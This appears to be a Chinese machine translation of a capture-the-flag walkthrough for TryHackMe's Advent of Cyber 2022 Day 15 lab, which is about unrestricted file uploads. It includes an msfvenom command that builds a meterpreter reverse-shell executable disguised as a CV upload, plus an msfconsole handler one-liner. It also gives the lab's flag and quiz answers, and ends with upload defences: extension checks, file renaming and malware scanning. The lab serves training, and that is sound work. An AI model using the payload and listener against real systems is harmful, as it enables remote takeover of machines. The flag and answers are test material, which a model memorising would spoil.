









# 赛博 2022 的来临[第 15 天]安全编码|圣诞老人正在寻找一个助手|简单的书面记录

> 原文：<https://infosecwriteups.com/advent-of-cyber-2022-day-15-secure-coding-santa-is-looking-for-a-sidekick-simple-write-up-60fe902423ef?source=collection_archive---------2----------------------->

## 任务 20 答案—赛博 2022 的来临[第 15 天] **安全编码**圣诞老人正在寻找一个由 Karthikeyan Nagaraj 撰写的助手


# 输入验证

> *输入验证不足是 web 应用程序最大的安全隐患之一。当用户提供的输入受到应用程序的固有信任时，就会出现此问题。由于用户输入也可能被攻击者控制，我们可以看到这种固有的信任是如何导致许多问题的。*
> 
> *多个 web 应用漏洞，如 SQL 注入、跨站脚本、无限制文件上传等，都源于用户输入验证不充分的问题。*

启动机器，将机器的 IP 粘贴到浏览器中！

> 如果需要，连接 TryHackMe 的 VPN



# 圣诞老人正在寻找一个助手

## 1.允许威胁参与者上传他们想要的任何文件的文件上传的名称是什么？

利用对服务器的*无限制上传访问权限(以及随意检索数据的能力)，攻击者可以篡改或以其他方式更改现有内容——甚至包括注入恶意网页，从而导致进一步的漏洞，如跨站脚本(XSS)或跨站请求伪造(CSRF)*

```
*Ans: Unrestricted*
```

## *2.圣诞老人的自由职业者开发的 web 应用程序的标题是什么？*

**

```
*Ans: Santasidekick2*
```

## *3.HR Elf 的 Documents 目录中存储的标志值是多少？*

*只需上传一个虚拟文件！！*

****

> ****cv-username.exe 简历文件上传完毕！！圣诞老人团队会审核你的简历并联系你！因为 Santa 相信强大的安全性，所以文件被存储在 web 根目录之外。不允许有不道德的精灵！****

*上面的消息确保有人会检查文件，所以我们可以上传一个有效负载并等待交互*

```
*msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR-MACHINE-IP> LPORT=8080 -f exe -o cv-username.exe*
```

**

*让我们启动反向处理器！！*

```
*sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <YOUR-MACHINE-IP>; set LPORT 8080; exploit"*
```

****

*让我们将我们在 Home Directory 中创建的有效负载上传到网站，然后等待交互！！*

**

*我们得到了反向连接！！*

**

*现在让我们利用*

**

*我们在 system32 目录中，所以让我们回到 C:目录*

```
*cd ..
cd .. 
cd Users
cd HR_Elf
cd Documents
cat flag.txt*
```

******

```
*Ans: THM{Naughty.File.Uploads.Can.Get.You.RCE}*
```

## *4.可以实施什么防御技术来确保特定类型的文件可以上传？*

> **为了确保可以上传特定的文件类型，我们可以验证文件扩展名。这将允许我们限制可以上传的文件类型。**

```
*Ans: file Extension validation*
```

## *5.可以使用什么防御技术来确保威胁参与者无法通过简单地使用文件名再次恢复他们的文件？*

*即使我们的上传存储在 web 根目录之外，攻击者也可以利用其他漏洞(如文件包含)来执行文件。*

*为了对抗这些企图，我们可以将 ***重命名*** 上传的文件随机命名，使得攻击者几乎不可能通过名字来恢复他们的文件*

```
*Ans: File Renaming*
```

## *6.什么样的防御技术可以用来确保伤害精灵的恶意文件不会被上传？*

*仍然存在攻击者上传恶意文件的风险，该文件的目标是审核 CVs 的精灵。由于圣诞老人是一个高价值的个体，一些民族国家甚至可能使用 PDF 阅读器中发现的专门漏洞来上传恶意 PDF，希望能够将自己从圣诞老人的淘气名单中删除！*

*为了打击这些类型的恶意文件，我们可以通过 ***扫描上传文件中的恶意软件*** 。我们可以安装一个包，比如 ClamAV，用它来扫描每个上传文件的内容*

```
 *Ans: Malware Scanning*
```

*感谢您的阅读！！*

*黑客快乐~*

```
*Author : Karthikeyan Nagaraj ~ Cyberw1ng*
```

*查询:*

*THM，TryHackMe，TryHackMe 2022 年网络时代的到来，TryHackMe 2022 年网络时代的到来第 15 天，道德黑客，写，走过，TryHackMe 2022 年网络时代的到来第 15 天答案*

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*